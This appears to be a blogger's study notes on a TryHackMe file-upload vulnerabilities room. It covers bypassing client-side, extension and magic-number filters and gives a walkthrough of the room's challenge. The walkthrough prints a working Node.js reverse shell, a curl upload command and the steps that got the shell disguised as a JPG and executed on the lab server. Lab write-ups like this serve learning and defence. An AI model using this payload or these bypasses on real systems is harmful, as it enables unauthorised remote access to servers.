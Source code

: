 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-09 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-09-tryhackme-complete-beginner.html
author: 100007
---
```


# Upload Vulnerabilities

## Bypassing Client-Side Filtering

How to bypass:

- Just turn off JavaScript.
- Use Burp Suite to modify the incoming page to remove the filter (often needs to be done before the page is loaded).
- Use Burp Suite to modify the file upload _after_ it has passed the filters.
- Use curl to send the file directly to the upload endpoint (make a good upload first to see what that looks like).

To modify the page in Burp Suite, first get the server response by right-clicking on the outgoing intercept and choosing Do intercept \> Response to this request. When we forward the request, the response will then be intercepted, and we can modify it as desired.

NOTE: Burp Suite does not intercept JavaScript files; to do this, we’ll need to modify the proxy’s default file extension filter under “Options”.

Modifying the file upload itself is much easier, as this can be done using Burp Suite’s normal interception flow. Note that Burp Suite _cannot_ attach new files, so we’ll need to modify the upload file (extension, etc.) to get past the filters, then undo our changes in the outgoing request.

Sending a file via curl is basically the same procedure as modify the file upload request, except that we let a good file go through so we can see the upload endpoint and then communicate with that directly.

```
curl -X POST -F "submit=$SUBMIT_VALUE" \
             -F "${FILE_INPUT NAME}=@$PATH_TO_FILE" $URL
```

## Bypassing Server-Side Filtering: File Extensions

Basically, bypassing server-side filters is going to involve a lot of trial and error until we figure out what the filter is (and how to work around it).

Note that sometimes developers just check to see if a valid extension exists within a file, so things like reverse-shell.jpg.php will work. Happy days if this is you.

Common file extensions for PHP:

- .php
- .phar
- .phtml
- .pht
- .phps (though I’ve always seen this as _source_ code)
- .php# (where `#` is the running PHP major version)

The trick, of course, is not only that you need to upload your file, but that you need to use an extension that the server will execute!

- [PHP (Wikipedia)](https://en.wikipedia.org/wiki/PHP)

## Bypassing Server-Side Filtering: Magic Numbers

To recap: This is (generally) the first 4 bytes of a file. Apparently, text files don’t have magic number, so one trick you can do is just insert four ASCII characters in the front of your file and then use a hex editor to change them to an appropriate magic number.

[Wikipedia’s list of magic numbers.](https://en.wikipedia.org/wiki/List_of_file_signatures)

The `hexeditor` app is a quick-and-easy hex editor, and `file` can give you a sense of whether you’ve effectively spoofed a file’s magic number.

Note that this can be a lot trickier if you’re not dealing with PHP, since many languages don’t have PHP’s concept of interpreted vs. non-interpreted bits.

## Example Methodology

The `Server` and `X-Powered-By` HTTP headers, if present, can be handy for figuring out what language we’re dealing with.

Since many servers turn off directory indexing and randomize file names, its helpful if we can figure out some place that displays or links to the file we just uploaded. If there’s no option here, gobuster’s -x switch allows a search for specific file extensions (but then the search is _within_ a particular directory).

There’s probably server-side filtering, so bypass everything client-side and then look for an error message. Using curl to hit an endpoint directly is probably not as useful as Burp Suite here… Tricks:

- Use completely valid and invalid extensions to check for the presence of white/blacklists.
- Try changing the magic number of a known good file to see if magic number filtering is in place.

## Challenge

Potentially interesting directories in /content, /assets, /modules, /admin.

The provided wordlist is combinations of three capital letters. The backgrounds files also follow this pattern (ABH.jpg, LKQ.jpg, SAD.jpg, UAD.jpg). All backgrounds are located in the /content directory (and the form says that uploaded files will be added to the slides), so I’ll bet that this is where uploaded files go. I did one good upload (and then a scan with gobuster) to verify this.

The server’s response when loading a page indicates that it is running Express. So we’ll need a Node.js compatible reverse shell. I used the first option from the Reverse Shell Cheat Sheet (note that the port and IP address in line 6 need to be customized).

```
(function(){
	var net = require("net"),
	    cp = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents Node.js from crashing
})();
```

(NOTE: I actually tried the more compact shell listed after this on the Reverse Shell Cheat Sheet, but it didn’t work.)

The /assets/js/upload.js script handles uploads. It requires files less than 400k in size with the first three bytes matching the JPG magic number (these are the only three bytes that are consistent between all JPG magic numbers) and an extension of .jpg or .jpeg.

Initially I tried to add the relevant magic bytes to the front of my JS file with the idea that I would edit them out of the request once they made it through the client-side filtering. However, when I viewed the request I discovered that content was base64 encoded, so I just used `base64 -w 0` to encode the shell _without_ the leading bytes and replaced the uploaded file entirely.

(NOTE: Initially I changed the MIME type to text/plain, but the server rejected this. Leaving it as image/jpeg worked though, no matter what the file extension. Note that the MIME type on the base64-encoded line didn’t seem to matter.)

Re-scanning the /content directory with gobuster for .js files revealed nothing, but rescanning for .jpg revealed that the server was renaming all files with the .jpg extension. Fortunately, the uploaded shell was so much smaller than either the pre-existing images or my uploaded test that it was easy to pick out

THIS IS WHERE I GOT STUCK. I finally wound up looking at the challenge hints, most of which it turned out I’d already figured out. But Hint 9 suggested looking at the /admin page, which I hadn’t bothered to try to visit. LET THAT BE A LESSON TO ME - POKE AROUND MORE!

The admin page indicates that it loads modules, so this is how we’re going to get the Express app to execute the reverse shell (I’d been wondering how I was going to get it loaded into memory up until this point). Loading ../content/XKM.jpg (which is where my shell wound up) in this page resulted popped the shell, after which grabbing the flag was easy.

- [Express](http://expressjs.com/)
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [TryHackMe: File Upload Vulnerabilities - Hints](https://muirlandoracle.co.uk/2020/06/30/file-upload-vulnerabilities-hints/)
